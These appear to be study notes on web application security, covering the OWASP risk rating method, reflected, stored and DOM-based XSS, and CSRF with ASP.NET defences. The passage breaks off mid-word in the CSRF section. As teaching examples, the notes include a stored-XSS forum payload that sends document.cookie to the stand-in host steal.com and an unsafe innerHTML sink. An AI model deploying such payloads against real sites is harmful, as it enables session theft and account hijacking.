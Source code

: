 ### OWASP
- Open Web Application Security Project (OWASP)
- Non-profit foundation that works to improve the security of software
- Community-led open source software projects
- Source for developers and technologies to secure the web

**OWASP Risk Rating Methodology**
- Risk model: Risk = Likelihood * Impact
	- Step 1: Identifying a risk
		- e.g. OWASP, SANS top 25
	- Step 2: Factors for Estimating Likelihood
		- e.g. Skill level, Motive, Opportunity, Size, Ease of discovery, Ease of Exploit, Awareness, Intrusion detection
	- Step 3: Factors for Estimating Impact
		- e.g. Loss of confidentiality, Loss of integrity, Loss of availability, Loss of accountability, Financial damage, Reputation damage, Non-compliance, Privacy violation
	- Step 4: Determining Severity of the Risk
	- Step 5: Deciding what to Fix 
		- After the risks to the application have been classified there will be a prioritized list of what to fix.
		- As a general rule, the most severe risks should be fixed first.
		- Not all risks are worth fixing.
		- Some loss is not only expected, but justifiable based upon the cost of fixing the issue.
	- Step 6: Customizing your Risk Rating Model
		- Risk ranking should be adapted to your own company purpose and mission

| Likelihood and impact levels| |
|-----------|-------|
|0 to < 3| Low|
|3 to < 6| Medium|
|6 to 9| High|

### Cross-Site Scripting (XSS)
- A client-side code injection attack allowing the injection of malicious code into a website.
- XXS flaws occurs whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript.

**Impacts of XSS**
- Allows attackers to execute scripts in the victim's browser.
	- Steal users cookies, allowing for someone to use the website pretending to be that user.
	- Steal users session, steal sensitive data, rewrite web page, redirect user to phishing or malware site etc.
	- Hijack an account.
	- Spread web worms.
	- Access browser history and clipboard contents.
	- Control the browser remotely.
	- Scan and exploit intranet appliances and applications.

**XSS Prevention**
- **Encoding**
	- Escapes the user input so that the browser interprets it only as data, not as code.
	- e.g. Converting characters like `<` and `>` into `&lt;` and `&gt;`.
- **Validation**
	- Filters the user input so that the browser interprets it as code without malicious commands.
- Configure Web.config file
- The act of filtering user input so that all malicious parts of it are removed, without necessarily removing all code in it.
- Input validation
	- Filter out special characters in HTML body.
	- Check input against a white-list.
	- E.g. Using ASP.NET Validation Server Controls.
- ASP.NET Core and Razor.
	- By default, they save us from the attack.
	- if need to render HTML content, use `@Html.Raw(htmlContent)`

**3 types of XSS**
- **Reflected XSS** (non-persistent), where the malicious string originates from the victim's request. (form field, hidden field, URL, etc...). The website then includes this malicious string in the response sent back to the user.
- **DOM-based XSS**, where the vulnerability is in the client-side code rather than the server-side code.
- **Persistent (Stored) XSS**, where the malicious string originates from the website's database.

**Reflected XSS**
- Script is executed on the victim's side
- Script is NOT stored on the server
- When a user clicks on the URL, it is executed in the user's browser. This type of attack is often used to send personal data of a user back to an attacker. This attack is very simple to exploit, which is one reason it is so popular and effective.
- Injected scripts are reflected off the web server.
	- e.g. error message, search results, or any other response
- e.g. Malicious code hidden inside links and embedded in emails or forum messages.
	- When an unsuspecting user clicks on the link, the malicious code may be executed on the client.
```
<a href="http://example.com/comment.pl?mycomment=<script>malicious code</script>">Click here</a>
```

**Attack explained**
1. Attacker crafts a URL containing a malicious string and sends it to the victim.
2. The victim is tricked by the attacker into requesting the URL from the vulnerable website.
3. The vulnerable website includes the malicious string from the URL in the response.
4. The victim's browser executes the malicious scripts inside the response, sending the victim's cookies to the attacker's server.

**Persistent XSS**
- Injected scripts are stored on vulnerable servers.
- e.g. an attacker might post a message as follows in a forum.
```
Hello message board. This is a message. 
<script>
	document.write("<img src=http://steal.com/xssHack/Steal?"+document.cookie+">")
</script>
This is the end of my message.
```
- When a victim navigates to the forum post, the malicious code may be executed unexpectedly.

**Attack explained**
1. The attacker uses one of the website's forms to insert a malicious string into the website's database.
2. The victim requests a page from the website.
3. The website includes the malicious string from the database in the response and sends it to the victim.
4. The victim's browser executes the malicious script inside the response, sending the victim's cookies to the attacker's server.

**DOM-based XSS**
- The attack payload is executed as a result of modifying the DOM "environment" in the victim's browser so that the client side code runs in an "unexpected" manner.
- Request does not travel to the server but stay at the browser the entire time.
- The application contains client-side js that processes data from an untrusted source in an unsafe way, usually by writing the data to a potentially dangerous sink within in the DOM.
- Source
	- A source is a JS property that contains data that an attack could potentially control.
		- e.g. `location.search`
- Sink 
	- A sink is a function or DOM object that allows JS code execution or rendering of HTML.
		- e.g. `eval()`

```
<html>
You searched for : <em><script>...</script></em>
<script>
var keyword = location.search.substring(6);
document.querySelector('em').innerHTML = keyword;
</script>
</html>
```

**Attack explained**
1. The attacker crafts a URL containing a malicious string and sends it to the victim.
2. The victim is tricked by the attacker into requesting the URL from the website.
3. The website receives the request, but does not include the malicious string in the response.
4. The victim's browser executes the legitimate script inside the response, causing the malicious script to be inserted into the page.
5. The victim's browser executes the malicious script inserted into the page, sending the victim's cookies to the attacker's server.


### Cross-Site Request Forgery (CSRF)
- A client-side attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated.
- XSRF, Sea Surf of Session Riding

**How it works?**
- The attacker will typically use social engineering, such as an email or link that will trick a victim into sending a forger request to a server.
- As the user is already authenticated by their application at the time the attack is happening, it's impossible for the application to differentiate a legitimate request from a forged one.

**Why does this happen?**
- While the evil website can't see your cookies, those cookies associated with your bank are being sent along with the request.

**CSRF vs XSS**
- CSRF is restricted to the actions victims can perform. XSS works on the execution of malicious scripts enlarging the scope of actions the attacker can perform.
- XSS requires only a vulnerability, while CSRF requires a user to access the malicious page or click a link.
- CSRF works only one way - it can only send HTTP requests, but cannot view the response. XSS can send and receive HTTP requests and responses in order to extract the required data.

**CSRF Prevention**
- Use anti-forgery tokens in ASP.NET Core.
- By including anti-forgery tokens in your applications, two different values are sent to the server with each POST.
	- One of the values is sent as a browser cookie.
	- The other is submitted as form data.
- U
